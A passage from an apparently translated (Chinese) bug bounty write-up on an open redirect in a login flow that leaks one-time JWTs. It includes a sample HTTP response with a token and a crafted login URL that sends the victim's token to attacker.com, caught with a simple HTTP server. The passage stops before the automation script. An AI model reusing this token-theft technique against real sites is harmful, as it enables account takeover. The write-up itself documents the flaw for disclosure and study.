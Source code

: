 在我的测试中，我探索了应用程序的不同子域，发现了一个有论坛的子域，为了使用论坛，应用程序需要一个经过身份验证的用户，所以为了对用户进行身份验证，应用程序将返回到`secure.site.com`，这是我测试身份验证机制的域。这说明了位于`secure.site.com`中的单个身份验证机制涵盖了子域和其他区域的所有身份验证。所以我一旦登陆成功，应用程序将跳转到`forum.site.com`，并且是已认证状态。
 这很有趣，我发现了应用程序还进行了一些重定向，我确定了应用程序是如何知道我在论坛子域上的，有时基于应用程序重定向的Referrer标头。我发现当网页跳转到`secure.site.com`时一个名为`my_results_redirect`新的GET参数也随之发送。因此，在重定向到论坛之前，我最初的位置是`/login?my_results_redirect=https://forum.site.com/.`
 现在，在使用值为`https://forum.site.com`的`my_results_redirect`执行登录后，我发现应用程序有以下响应：

```
HTTP/1.1 302 Found
Date: Tue, 18 Dec 2018 19:51:21 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Location: https://forum.site.com/dashboard?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJhdXRoX29ubHkiOnRydWUsImV4cCI6MTU0NTE2MjY5Nn0.hzBq7uN2KiE8JNw1Uj_apd1OxqzS3JRsKt-neoSP1vI&signup_event=true&email_event=demo@site.com
Cache-Control: no-cache
Set-Cookie:
```

我发现我能够通过操纵`my_results_redirect`参数的值来篡改令牌的重定向区域。因此，如果它的值被设置为`https://shawarkhan.com`，那么应用程序将把用户重定向到`https://shawarkhan.com`。`my_results_redirect`参数在所有子域上进行了处理，因此所有域都有未经验证的重定向，但由于我们的目标是`secure.site.com`，所以我将重点放在它上。

# 截获一次性使用的JWT

因此，如果经过身份验证的用户访问精心编制的URL，我将在主机上收到JWT。输入命令python -m SimpleHTTPServer 80，当受害者访问`https://secure.site.com/login?my_results_redirect=http%3A%2F%2fattacker.com%2Fdashboard` ，我收到了第一个JWT令牌！

[![img](assets/20190207122738-b32b5300-2a90-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190207122738-b32b5300-2a90-1.png)
 现在是向`/ aapi / v1 / authentications / token`发出请求以接收最终JWT令牌的时候了。我发出了请求，结果发现请求被拒绝了。我很困惑，因为我步骤完全正确。我执行了每个步骤，发现很徒劳，并且无法获得第二个JWT令牌。啊哈！保护机制？

# 约0.01％的保护？

我发现开发人员实施了一些小小的保护措施，以防止未经授权使用第一个令牌。即使我遵循了应用程序正在执行的相同步骤，我的请求被拒绝的原因就是延迟。应用程序在令牌生成后直接将其发送给API，所以在生成令牌和发送令牌给API之间有一个小延迟。下面是一些小问题：
 令牌只有一次可用。
 令牌在几秒钟内过期。
 为了消除过期问题，我使用下面的python代码自动化了几个步骤：
